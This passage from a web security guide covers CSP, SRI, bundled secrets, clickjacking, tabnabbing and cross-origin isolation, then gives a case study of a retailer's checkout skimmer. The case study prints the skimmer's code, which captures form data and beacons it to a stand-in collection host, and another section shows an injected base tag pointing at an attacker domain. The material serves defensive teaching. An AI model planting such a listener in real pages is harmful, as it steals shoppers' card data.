SRI hashes the fetched file and refuses to execute on a mismatch, which is exactly right for a
versioned, immutable URL such as `chart-4.2.1.min.js`. A loader served from a "latest" URL
changes by design, so pinning it breaks on the vendor's next deploy. Those need a strict CSP,
a `connect-src` naming permitted destinations, a sandboxed frame, or self-hosting.

**Q: Can a client bundle ever hold a secret, and what do `NEXT_PUBLIC_` and `VITE_` mean?**
**Short:** Anything the bundler inlines ships to every visitor, so those prefixes are a declaration that a value is public rather than a way to protect it.

Build tools replace `process.env.NEXT_PUBLIC_X` and `import.meta.env.VITE_X` with string
literals in the output, and adding the prefix to silence an `undefined` is how production keys
ship. A publishable key is fine; a signing key or payment secret must move behind an endpoint.
Watch public source maps and a `.env` in the served directory; scan `dist/` in CI and rotate.

**Q: What does `'strict-dynamic'` do in a CSP?**
**Short:** Trust propagates from a nonced script to the scripts it loads, which lets a policy drop host allowlists entirely.

Without it, a nonce policy breaks every bundler and loader that injects further `<script>`
tags at runtime, because those tags carry no nonce. `'strict-dynamic'` says a script already
trusted may load more, and makes browsers ignore host allowlists and `'unsafe-inline'` in that
directive, so the stale-CDN-file bypass disappears.

**Q: Why do `object-src 'none'` and `base-uri 'none'` belong in every policy?**
**Short:** Plugins and an injected base tag are two script-execution paths that script-src does not cover on its own.

`<object>` and `<embed>` can load content that executes and `script-src` says nothing about
them, so `object-src 'none'` closes that door for one directive. `base-uri` is subtler: an
injected `<base href="https://evil.test/">` retargets every relative script URL, defeating a
nonce policy from outside the nonce mechanism. CSP Evaluator flags a policy omitting them.

**Q: A third-party script on your checkout page is compromised. What is the exposure?**
**Short:** A third-party script runs with the page's full privileges, so a vendor compromise becomes a form skimmer with no visible symptom.

There is no privilege separation inside an origin: the script can add a submit listener, read
every input including card fields, read non-`HttpOnly` cookies and `localStorage`, and beacon
it out while the payment completes normally. That is the Magecart pattern, invisible to users
and tests. Defences are structural — an iframed payment field, `connect-src`, code review.

**Q: How do you defend against clickjacking, and why is `frame-ancestors` preferred?**
**Short:** The CSP directive accepts a list of origins, applies at every nesting level, and is the form browsers implement consistently.

Clickjacking frames your page, overlays it, and converts a click the user believes is on the
attacker's site into a real action in the victim's authenticated session.
`frame-ancestors 'self'` or `'none'` is the control; `X-Frame-Options` takes a single value and
handles nesting differently. Note that `frame-ancestors` is ignored in a `<meta>` tag.

**Q: How do you roll out a CSP on a large existing application without breaking it?**
**Short:** Report-Only mode sends violation reports while blocking nothing, so you can measure what a policy would break before you enforce it.

Ship `Content-Security-Policy-Report-Only` with the policy you intend plus `report-uri`, and
collect for one to two weeks so weekly and monthly code paths appear. Expect noise from
browser extensions, which you filter by scheme. Then fix your own violations and switch the
header name. Keep reporting on afterwards; a rising rate signals an injection.

**Q: What is reverse tabnabbing, and is it still a real risk?**
**Short:** A page opened with target blank could reach back through window.opener and navigate the original tab to a lookalike login page while the user is elsewhere.

The user clicks a link, reads the new tab, returns to the original, and finds what looks like a
session-expired login form that is attacker-controlled. Modern browsers set `noopener`
implicitly for `target="_blank"`, so the default case is closed. It still matters for
`window.open()`, older embedded webviews, and any CMS that rewrites links.

**Q: What do COOP and COEP give you, and why is `SharedArrayBuffer` gated on them?**
**Short:** Isolating the browsing context from cross-origin documents restores the timing precision that shared memory would otherwise turn into a cross-origin read.

`SharedArrayBuffer` plus a worker is a high-resolution timer, the ingredient Spectre-class
attacks need to read memory across origins. `Cross-Origin-Opener-Policy: same-origin` severs
`window.opener` links and `Cross-Origin-Embedder-Policy: require-corp` forces every subresource
to opt in. Once isolated, `performance.now()` goes from a clamped 100 microseconds back to 5.

---

## 13. Best Practices

1. **Treat the client as attacker-controlled.** Every rule is enforced on the server.
2. **Default to `textContent`**, and sanitize with an allowlist when the output must be HTML.
3. **Sanitize at render, storing the original**, so a sanitizer upgrade protects old content.
4. **Ship a nonce-based CSP** with `'strict-dynamic'`, `object-src 'none'`, `base-uri 'none'`
   and `frame-ancestors`, Report-Only first.
5. **Add `require-trusted-types-for 'script'`** once the policy is stable, keeping the
   sanitizer for browsers that do not enforce it.
6. **Check `event.origin` with `===` against a constant** on every handler, and name the
   target origin on every send that carries anything private.
7. **Never combine `allow-scripts` with `allow-same-origin`** on a frame you do not trust.
8. **Pin third-party scripts with SRI where the URL is versioned**, self-host what matters,
   and keep every tag in code review rather than a tag manager.
9. **Reject `__proto__`, `constructor` and `prototype` keys** in any merge or parser that
   touches user input; use `Map` for user-keyed lookups.
10. **Scan build output for secrets in CI** and rotate anything that shipped.

---

## 14. Case Study

### The checkout skimmer that passed every test

**The system.** A mid-market retailer, 90,000 orders a month, card fields rendered by its
own React checkout. The page carried nine third-party tags, four of them added through a tag
manager by marketing without code review.

**The symptom.** None. Orders completed, conversion held, error rates were flat. The first
signal came eleven weeks in, from the card network: a fraud cluster whose only common factor
was a purchase on this site.

**Step 1 — what was actually on the page.** An inventory of executing scripts found a chat
widget loading a helper from a domain that had changed registrant four months earlier; the
helper had been benign for years, so nobody re-reviewed it.

```js
// BROKEN: what the compromised helper added -- indistinguishable from analytics.
document.addEventListener("submit", (e) => {
  const data = Object.fromEntries(new FormData(e.target));
  navigator.sendBeacon("https://cdn-metrics.example/collect", JSON.stringify(data));
}, true);
```

Nothing broke. `sendBeacon` fires during unload and is easy to miss in the network panel,
and the functional tests passed because the checkout worked perfectly.

**Step 2 — why every existing control missed it.** TLS, a WAF, a PCI ASV scan and
`X-Frame-Options` all defend the server or the transport. This was a same-origin script
reading a same-origin form, an anomaly to none of them, and with no CSP at all the
exfiltration destination needed no approval.

**Step 3 — the structural fix.** Three changes, in order of how much they bought:

```html
<!-- BROKEN: the retailer's own input, readable by all nine third-party scripts -->
<input name="cardNumber" autocomplete="cc-number" />

<!-- FIX: the field lives in the payment provider's cross-origin iframe, so card
     data never enters an origin any third-party script can read. -->
<iframe src="https://pay.provider.example/card-field" title="Card number"></iframe>
```

Second, the §6.6 policy plus `connect-src 'self' https://pay.provider.example
https://analytics.example` — the one directive that would have stopped this attack, since a
`sendBeacon` to an unlisted host is then blocked and reported. Third, tag-manager containers
were frozen and every tag moved into the repository behind code review, with SRI on the four
vendors whose URLs were versioned.

**Step 4 — what it cost.** Report-Only ran for 16 days and surfaced 41 distinct violations:
12 the retailer's own inline scripts, 29 browser extensions, filtered out. Two vendors were
replaced because they injected inline handlers and would not change.

| Metric | Before | After |
|--------|--------|-------|
| Third-party scripts with DOM access on checkout | 9 | 3 |
| Card fields readable by page JavaScript | all | none |
| Time to detect an unknown exfiltration host | 11 weeks | under 5 minutes, by CSP report |
| Checkout LCP, p75 | 3.1 s | 2.4 s |

The LCP win was accidental: removing six scripts from the critical path did more than the
previous quarter's dedicated performance work. Full checkout architecture is in
[`../../react/case_studies/design_a_checkout_and_payment_flow.md`](../../react/case_studies/design_a_checkout_and_payment_flow.md).

**What the team took away.**

1. A third-party script is not a vendor relationship, it is code with your privileges. The
   review question is "what could this do if the vendor were compromised".
2. An attack that breaks nothing is invisible to every functional signal you have, so
   detection has to come from a control that enumerates what is *allowed*.
3. The strongest control was architectural, not a header: data the page cannot read cannot
   be stolen from the page — and four of the nine tags had no identifiable approver.
